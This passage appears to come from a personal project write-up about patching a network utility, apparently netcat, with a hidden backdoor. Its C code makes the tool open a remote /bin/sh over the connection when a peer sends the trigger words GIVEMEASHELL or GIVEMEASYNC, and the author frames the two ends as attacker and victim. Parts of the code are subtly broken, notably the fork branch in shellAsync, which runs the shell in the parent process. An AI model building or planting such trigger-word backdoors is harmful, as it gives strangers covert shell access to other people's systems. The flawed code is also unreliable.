 ## The concurrency issue
after i was done with the script, i got into polishing the code and attempting an async version of the shell, this lead to unintended behavior. My solution to that problem involved usage of mutex and condvars to wait for the spawned shell to return before creating another one.
Another issue that i was not able to solve was trying to use a shell from the victim end after popping a shell on the attacker end, which was not possible.
## Current state of the project
the final version of the patch includes a blocking version that does not call fork, that you can call by typing GIVEMEASHELL, and a forked version that you can call by typing GIVEMEASYNC.

these are the main changes in the full implementation:
```c
#include <pthread.h>
.
.
.
# if defined(TLS)
ssize_t fillbuf(int, unsigned char *, size_t *, struct tls *, int s);
# else
ssize_t fillbuf(int, unsigned char *, size_t *, int s);
# endif
.
.
.
pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;
pthread_cond_t condvar = PTHREAD_COND_INITIALIZER;
.
.
.
int isShell = 0;

void shellAsync(int s){
		pthread_mutex_lock(&mutex);
		isShell = 1;
        pid_t childpid = fork();
        if(childpid){
        dup2(s,0);
        dup2(s,1);
        dup2(s,2);
        execve("/bin/sh",0,0);
		pthread_cond_signal(&condvar);
		exit(0);
        }
		pthread_cond_wait(&condvar,&mutex);
		pthread_mutex_unlock(&mutex);
		isShell = 0;
}

void shell(int s){
		isShell = 1;
		int temp0 = dup(0);
        int temp1 = dup(1);
        int temp2 = dup(2);
        dup2(s,0);
        dup2(s,1);
        dup2(s,2);
        system("/bin/sh");
        dup2(temp0,0);
        dup2(temp1,1);
        dup2(temp2,2);
		isShell = 0;
}
```
